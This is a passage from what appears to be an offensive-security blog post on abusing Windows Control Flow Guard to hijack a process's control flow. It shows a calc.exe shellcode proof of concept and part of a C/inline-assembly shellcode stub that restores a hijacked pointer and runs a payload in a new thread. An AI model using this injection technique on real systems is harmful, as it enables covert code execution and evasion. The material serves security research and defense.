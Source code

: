 ![Testing the basic POC and we see shellcode execution via calc.exe launching](/assets/img/posts/abusing-control-flow-guard-for-control-flow-hijacking/testing_poc_basic.png)

There are however two issues:

- Target process either crashes or hangs after executing the shellcode
- Pointer is not restored after execution, meaning multiple shells may be caught creating unnecessary noise

## Writing a Shellcode Stub

Our shellcode stub will perform the following:

1. Restore the original pointer value to prevent multiple callbacks
2. Execute the payload in a new thread
3. Return cleanly to the original

To save us a lot of time, and to make use of compiler optimisations, we can actually just write C and compile via a non-MSVC compiler in order to compile position independent code. We can do that as follows using `x86_64-w64-mingw32-gcc`.

**source code**
```cpp
void stub(void)
{
	// save registers
    asm(
        "push rax\n"
        "push rdi\n"
        "push rcx\n"
        "push rdi\n"
        "push rsi\n"
        "push r8\n"
        "push r9\n"
        "push r10\n"
        "push r11\n"
        "push r12\n"
        "push r13\n"
    );

	// placeholder variables that we will replace in the loader
    tVirtualProtect VirtualProtect = (tVirtualProtect)0x1111111111111111;
    tCreateThread CreateThread = (tCreateThread)0x2222222222222222;
    FARPROC* icall_fptr = (FARPROC*)0x3333333333333333;
```